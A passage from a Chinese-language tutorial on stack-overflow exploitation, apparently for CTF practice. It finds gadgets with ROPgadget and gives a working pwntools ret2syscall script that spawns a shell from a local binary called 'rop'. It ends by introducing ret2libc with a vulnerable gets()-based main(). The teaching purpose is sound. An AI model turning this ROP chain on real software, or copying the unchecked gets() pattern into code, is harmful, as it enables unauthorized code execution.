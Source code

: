 **想知道108+4是怎么算出来的，以及buf的前后两端表示方法，试一试。**

此外，我们需要获得 /bin/sh 字符串对应的地址。

```
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

以及int 0x80的地址：

```
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

EXP如下：

```
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

## 找到的gadgets及其地址
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
## flat表示连接，注意此处不是指令是地址，栈中只有地址与参数，这种类型比较奇特。## 注意pop，ret等指令的实际意义，后面接的是它们的参数，其中 0xb 为 execve 对## 应的系统调用号。
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])

sh.sendline(payload)
sh.interactive()
```

payload = flat([‘A’ * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])，pop eax是把栈顶的数字先赋给eax，再弹出/释放。

**第四种类型：ret2libc**

libc是Linux的函数库，ret2libc就是控制程序执行libc中的函数，通常是修改函数返回地址为某个函数的plt处或者函数的具体位置(函数对应的got表项内容)。通常情况下，我们会选择执行system("/bin/sh").

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```
